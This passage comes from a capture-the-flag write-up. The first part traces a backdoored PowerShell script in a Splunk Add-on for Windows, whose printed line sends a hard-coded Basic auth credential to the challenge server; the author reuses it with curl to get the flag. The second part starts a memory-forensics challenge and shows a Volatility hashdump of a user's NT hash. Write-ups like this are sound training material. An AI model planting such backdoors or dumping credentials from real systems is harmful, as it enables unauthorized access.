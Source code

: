 ```
$ curl -i http://chal.ctf.games:30866/
HTTP/1.1 401 UNAUTHORIZED
Content-Type: application/json
Content-Length: 52

{"error":"Missing or invalid Authorization header"}
```

At this point I assumed that to get the flag it was necessary to authorize ourselves. The challenge file is a copy of a Splunk Add-on for Windows directory, for version `8.7.0`. I didn't know much about this so I took a look at the [documentation](https://docs.splunk.com/Documentation/AddOns/released/Windows/AbouttheSplunkAdd-onforWindows), which didn't reveal much.

Looking at the files, I noticed most of them were created on `5/10/2023`, but there was a directory of PowerShell scripts that was created on `9/19/2023`. I started to look for any credentials that may have been included in these scripts and found this in the file `nt6-health.ps1`:

```
$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

So I passed this over to the instance:

```
$ curl -i http://chal.ctf.games:30866/ -H "Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 69

<!-- ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ== -->
```

Then decoded the returned Base64:

```
$ echo "ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==" | base64 -d
echo flag{60bb3bfaf703e0fa36730ab70e115bd7}
```

## Bad Memory
This was a memory forensics challenge, so I enlisted the help of volatility. The decompressed file was 4GB.

I wasn't sure what password was being requested. I went ahead assuming it was the user profile's password for their user account.

Initially I tried to see if there was anything in the password reminder questions, located in `SAM\Domains\Account\Users\000003E9` but this didn't turn up any results as they were filled with nonsense answers.

Next, I dumped the user account hashes:

```
python vol.py -f image.bin windows.hashdump
Volatility 3 Framework 2.5.2
User	rid		lmhash								nthash
congo	1001	aad3b435b51404eeaad3b435b51404ee	ab395607d3779239b83eed9906b4fb92
```
